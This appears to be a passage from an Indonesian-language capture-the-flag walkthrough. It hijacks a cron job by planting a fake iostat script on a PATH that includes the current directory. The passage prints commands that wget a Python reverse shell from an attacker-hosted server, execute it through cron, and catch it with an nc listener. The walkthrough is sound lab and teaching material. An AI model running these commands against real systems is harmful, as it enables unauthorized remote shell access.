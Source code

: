 Jika menggunakan pilihan pertama kita perlu membuat file. Tapi /tmp/stats dimiliki oleh bynarr dan di-generate otomatis, mungkin kita bisa manfaatkan ini atau setidaknya mencari tahu cara generate file sebagai bynarr.
Jika menggunakan pilihan kedua kita butuh tty.

Oke, mari coba pilihan pertama. Kita tahu bahwa /tmp/stats di-generate oleh cron yang dijalankan untuk user bynarr. /tmp/stats adalah hasil dari iostat. Bisakah kita override si iostat,
bikin suatu script bernama iostat yang dipanggil alih-alih yang ada di /usr/bin/iostat. Periksa profile bash yang ada di /home/bynarr/.bash_profile dan kita menemukan satu baris yang menarik:

`PATH=.:$PATH:$HOME/bin`

Ya! Dia akan lihat direktori saat ini terlebih dahulu baru lihat $PATH dan $HOME/bin. Ketika cron berjalan, dia akan melihat ini.

Waktunya mengeksploitasi crontab. Kita akan download reverse shell dengan bantuan cron. Yang paling mudah adalah menggunakan web server di lokal untuk host file shell. Kemudian jalankan shell. Semua perintah akan dilaksanakan oleh iostat bikinan kita.

Masih menggunakan [cheatsheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet "Reverse shell cheatsheet"), kita gunakan [script python](reverse.py "Python Reverse Shell").

Buka /etc/apache2/ports.conf dan pastikan kita listen di port 51242. Kemudian jalankan apache. Sesuaikan dengan kondisi di lokal.

~~~~
# nano /etc/apache2/ports.conf
# apachectl start
# cp reverse.py /var/www/html/reverse.py
~~~~

Kemudian gunakan comm.py kembali untuk membuat file iostat di /home/bynarr

`send $ echo -e 'wget http://192.168.56.1:51242/reverse.py -O /tmp/reverse.py'>/home/bynarr/iostat && chmod +x /home/bynarr/iostat`

Tunggu satu menit sampai cron dijalankan. Pastikan /tmp/reverse.py ada. Kemudian overwrite iostat supaya menjalankannya.

`send $ echo -e 'python /tmp/reverse.py'>/home/bynarr/iostat`

Matikan apache dan nyalakan listener

~~~~
# apachectl2 stop
# nc -lvp 51242
~~~~

Jika tak ada halangan, kita dapat reverse shell.

![Get Reverse Shell](reverse-shell-get.png "Get Reverse Shell")
